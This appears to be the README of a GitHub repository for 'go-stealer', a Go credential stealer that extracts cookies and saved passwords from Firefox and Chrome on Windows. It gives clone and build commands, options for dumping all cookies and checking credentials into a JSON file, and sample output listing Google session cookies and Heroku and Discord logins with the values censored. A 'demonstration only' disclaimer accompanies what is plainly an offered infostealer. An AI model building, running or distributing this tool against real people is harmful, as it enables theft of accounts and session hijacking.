 # Golang Credential Stealer
Demonstration of gaining access into cookies & login credentials. Currently only supports firefox & chrome, planning to support edge but i have no interest in any other browser since the main purpose of this repo is just as demonstration.

Please note that any illegal action related to this program is highly discouraged, it is user's resposibility for anything done with this distribution and has nothing to do with me.

> Currently only windows is supported, and older version of firefox / chrome might be incompatible (this is intentional since most people don't use older browser anyway).
## Building
Install go compiler, > 1.18 if possible, but any version above 1.0 seems fine.
```bash
> go version
go version go1.18 windows/amd64
```

Clone this repository.
```bash
git clone https://github.com/idfp/go-stealer
```
Install required dependencies, then build it or just run as it is.
```
go build .
```

## Usage
```bash
go-stealer.exe [Options]
or
go run . [Options]
```
There's no need to pass profile directory, the program will find it by its own.

### Options
```bash
--browser               Targeted browser, by default the value is "firefox".
-b                      Shorthand for --browser.

--check-credentials     Check login credentials, by default this is turned off.
-c                      Shorthand for --check-credentials.

--dump-all              Dump all cookies instead of just a specific host, --output is required for this.
-a                      Shorthand for --dump-all

--output                JSON File to save all logged credentials.
-o                      You guessed it.

--web                   Specific host to look for when doing cookies logging.
-w                      Yes
```

### Example Usage
This is how the result will looks like, of course the private data is censored.
```bash
> go-stealer.exe -a -c -o result.json
Opening SQL File
accounts.google.com @ SMSV : [REDACTED]
.developers.google.com @ _ga : [REDACTED]
accounts.google.com @ ACCOUNT_CHOOSER : [REDACTED]
.google.com @ ANID : [REDACTED]
.fonts.google.com @ _ga : [REDACTED]

...

Site: https://id.heroku.com 
Username: ri******@gmail.com
Password: ******

Site: https://discord.com 
Username: ri******@gmail.com
Password: ******

Saving all result to result.json
```